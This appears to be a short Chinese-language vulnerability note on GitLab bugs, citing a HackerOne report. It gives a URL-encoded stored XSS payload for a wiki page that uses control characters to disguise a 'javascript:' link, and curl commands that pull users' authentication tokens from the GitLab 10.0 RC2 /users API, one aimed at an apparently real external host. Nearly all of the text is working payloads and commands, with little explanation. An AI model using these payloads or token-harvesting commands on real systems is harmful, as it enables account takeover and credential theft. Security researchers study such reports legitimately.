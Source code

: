 https://hackerone.com/reports/270999

wiki处，编辑page，抓并修改content内容

payload：
```js
%3Ca+href%3D%22%01java%03script%3Aconfirm%28document.domain%29%22%3EClick+to+execute%3Ca%3E%0D%0A
```
![](pic/gitlab1.jpg)



## GitLab 10.0 RC2 returning _all_ user data in the /users API endpoint, including tokens

```
curl -s --request GET https://192.168.72.133/api/v4/users/951422 | jq '.authentication_token'

curl -s --request GET http://192.168.72.133/api/v4/users/1

curl -s --request GET http://git.tophant.com/api/v4/users/1 | jq '.authentication_token'

```